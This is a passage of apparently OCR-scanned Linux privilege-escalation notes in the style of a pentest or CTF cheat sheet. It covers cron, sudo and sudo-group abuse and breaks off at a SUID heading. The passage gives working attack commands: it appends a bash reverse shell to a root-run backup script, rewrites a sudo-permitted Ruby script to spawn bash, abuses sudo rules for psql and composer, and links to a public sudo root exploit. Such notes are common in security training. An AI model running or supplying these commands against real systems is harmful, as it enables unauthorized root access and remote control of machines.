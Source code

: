 ```jsx
//CMD: UID=0     PID=2309   | /bin/bash /opt/log-backup.sh 
//CMD: UID=0     PID=2311   | tar -czf /root/backup/log_backup_20240624204301.tar.gz /root/backup/log_backup_20240624204301  
echo "/bin/bash -i >& /dev/tcp/192.168.1.1/8080 0>&1" >> /opt/log-backup.sh 

#.sh need to start with #!/bin/bash
```

### Sudo

Sudo List

```jsx
sudo -l
https://gtfobins.github.io/

//check user group
cat /etc/groups
//ALL:ALL NOPASS
sudo su
sudo -i

//(ALL) NOPASSWD: /usr/bin/psql
https://gtfobins.github.io/gtfobins/psql/#sudo

//(ALL) NOPASSWD: /usr/bin/ruby /home/andrew/app/app.rb
echo 'exec "/bin/bash"' > app.rb
sudo /usr/bin/ruby /home/andrew/app/app.rb

ls -l /etc/sudoers

//(ALL : ALL) ALL
//(root) NOPASSWD: /usr/bin/composer --working-dir\=/var/www/html/lavita * => * means any behavior
sudo composer --working-dir=$TF run-script x
```

Sudo Version

```jsx
sudo -V
https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit
```

Sudo Group Privilege

```jsx
//switch to skunk
uid=0(root) gid=0(root) groups=0(root)                                                                                                                                            
uid=1001(skunk) gid=1001(skunk) groups=1001(skunk),27(sudo),33(www-data)
```

### SUID
